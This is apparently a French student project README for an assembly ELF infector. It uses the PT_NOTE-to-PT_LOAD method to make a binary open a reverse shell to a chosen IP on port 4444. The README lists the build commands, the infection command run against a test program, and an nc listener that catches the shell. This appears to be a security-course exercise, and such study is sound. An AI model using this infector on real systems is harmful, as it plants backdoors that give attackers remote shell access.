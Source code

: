 # pt_note-pt_load-asm

**Lucas MILLER 3SI4**

Ce projet est un programme d'infection d'ELF à travers la méthode pt_note to pt_load.

Il n'est **pas** nécessaire de désactiver l'ASLR.
Ce programme est dynamique et ne nécessite donc pas de modifier le code lors de l'utilisation sur un autre programme.
Une fois infecté, le programme va, lors de son lancement, exécuter un reverse shell sur l'IP choisie.
L'IP peut être choisie lors du lancement, mais le port sera toujours 4444.

Il fonctionne sur les ELF avec les arguments -no-pie.

### Voici les commandes à lancer pour vérifier son bon fonctionnement.

Compiler le programme sain. Il peut être modifié en amont.
```
gcc -no-pie saine-code/safe_code.c -o saine-code/safe_code
```

Compilation de l'infecteur :
Il se compile ainsi :
```
nasm -f elf64 -o main/pt_note_to_pt_load_infector.o main/pt_note_to_pt_load_infector.s && ld -o main/pt_note_to_pt_load_infector main/pt_note_to_pt_load_infector.o
```
Puis lancement du programme :
Il va infecter le programme donné en argument
```
main/pt_note_to_pt_load_infector saine-code/safe_code
```

## Pour vérifier le reverse shell : 
```
saine-code/safe_code
```

Éxécution normal du programme

```
saine-code/safe_code
```

En parallèle :

```
nc -lnvp 4444

```


